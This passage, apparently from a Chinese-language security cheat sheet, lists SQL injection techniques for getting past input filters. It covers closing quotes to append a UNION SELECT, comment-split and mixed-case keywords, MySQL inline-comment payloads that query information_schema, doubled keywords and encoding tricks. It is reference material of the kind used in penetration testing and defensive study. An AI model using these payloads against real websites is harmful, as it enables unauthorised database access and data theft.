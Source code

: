     闭合语句绕过
    
    ```bash
    select * from user where id='{}';
    //
    id=1'union select 1,2,3||'1
    // 就变成
    select * from user where id='1'union select 1,2,3||'1';
    ```
    
7. `=` 绕过
    
    `like` 或者 `<`  `>`
    
8. 绕过 union，select ，where 等
    
    常见注释符：`//`,`--` ,`/**/`, `#`, `--+`,`-- -`,`;`,`%00`,`--a`
    
    ```bash
    U/**/NION/**/SE/**/LECT/**/user，pwd from user
    ```
    
    大小写绕过
    
    ```bash
    UniOn SeLeCt 1,2,3
    ```
    
    内敛注释绕过
    
    ```bash
    id=-1'/*!UnIoN*/SeLeCT1,2,concat(/*!table_name*/) FrOM/*information_schema*/.tables/*!WHERE*//*!TaBlE_ScHeMa*/like database()#
    ```
    
    双关键字绕过
    
    ```bash
    ununionion select
    ```
    
9. 通用编码绕过
    
    URl，ASCII，HEX，unicode